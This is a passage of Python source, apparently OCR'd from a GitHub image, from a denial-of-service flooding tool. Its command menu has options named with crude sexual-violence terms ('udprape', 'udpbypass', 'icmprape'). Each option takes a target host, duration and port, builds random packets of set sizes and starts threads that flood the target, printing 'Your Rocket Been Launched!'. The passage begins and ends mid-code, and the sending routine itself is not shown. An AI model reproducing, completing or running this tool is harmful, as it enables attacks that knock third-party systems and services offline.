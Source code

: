 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 30460
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "udprape":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 0
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "udprapev2":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 50000
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "udpbypass":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 40000
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "icmprape":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()